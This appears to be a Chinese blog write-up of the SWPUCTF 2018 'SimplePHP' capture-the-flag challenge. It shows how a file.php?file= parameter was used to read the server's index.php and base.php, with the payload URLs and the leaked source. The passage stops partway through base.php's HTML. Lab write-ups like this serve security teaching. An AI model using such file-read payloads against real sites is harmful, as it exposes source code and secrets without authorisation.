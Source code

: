 # 原创
：  [SWPUCTF 2018]SimplePHP

# [SWPUCTF 2018]SimplePHP

#### [SWPUCTF 2018]SimplePHP

## 考点

> 
文件包含、Phar反序列化


## 思路

> 
页面存在一个简单的文件上传页面，以及一个查看上传之后的文件的地方<br/> 查看文件出的url为`http://b2674493-8a2d-4652-92da-b88fca9fb552.node3.buuoj.cn/file.php?file=`，看到`file=`尝试一下文件内容读取<br/> F12查看发现有提示`&lt;!--flag is in f1ag.php--&gt;`，尝试伪协议读取但是没成功<br/> 尝试直接`file=index.php`发现可以读取，干脆把可以读取的都读取一遍


> 
分析



## Payload

> 
读取index.php`http://b2674493-8a2d-4652-92da-b88fca9fb552.node3.buuoj.cn/file.php?file=index.php`


```
&lt;?php 
header("content-type:text/html;charset=utf-8");  
include 'base.php';
?&gt; 

```

> 
读取base.php`http://b2674493-8a2d-4652-92da-b88fca9fb552.node3.buuoj.cn/file.php?file=base.php`


```
&lt;?php 
    session_start(); 
?&gt; 
&lt;!DOCTYPE html&gt; 
&lt;html&gt; 
&lt;head&gt; 
    &lt;meta charset="utf-8"&gt; 
    &lt;title&gt;web3&lt;/title&gt; 
    &lt;link rel="stylesheet" href="https://cdn.staticfile.org/twitter-bootstrap/3.3.7/css/bootstrap.min.css"&gt; 
    &lt;script src="https://cdn.staticfile.org/jquery/2.1.1/jquery.min.js"&gt;&lt;/script&gt; 
    &lt;script src="https://cdn.staticfile.org/twitter-bootstrap/3.3.7/js/bootstrap.min.js"&gt;&lt;/script&gt; 
&lt;/head&gt; 
&lt;body&gt; 
    &lt;nav class="navbar navbar-default" role="navigation"&gt; 
        &lt;div class="container-fluid"&gt; 
        &lt;div class="navbar-header"&gt; 
            &lt;a class="navbar-brand" href="index.php"&gt;首页&lt;/a&gt; 
        &lt;/div&gt; 
```
